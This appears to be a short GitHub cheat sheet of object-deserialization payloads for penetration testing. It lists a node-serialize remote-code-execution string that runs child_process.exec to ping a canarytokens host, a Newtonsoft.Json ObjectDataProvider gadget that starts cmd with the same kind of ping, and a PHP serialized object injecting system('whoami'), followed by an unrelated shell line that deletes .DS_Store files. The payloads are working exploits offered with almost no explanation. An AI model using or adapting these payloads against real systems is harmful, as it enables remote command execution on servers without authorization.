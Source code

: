 # Object Deserialization
## Node.JS - node-serialize
```sh
{"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('ping XXXXXXXXX.canarytokens.com', (error, stdout, stderr) => { console.log(stdout); }); } ()"}

```
#####

## C# - Newtonsoft
```sh
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', 'ping -n 3 ping XXXXXXXXX.canarytokens.com']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
#####

## PHP - serialize
```sh
O:8:"Example2":1:{s:14:"Example2hook";s:17:"system('whoami');";} 
```
#####

## Find and delete files (in case of a space in path we should use)
```sh
#!/bin/sh

find . -name ".DS_Store*" -exec rm {} + 2>/dev/null 

```
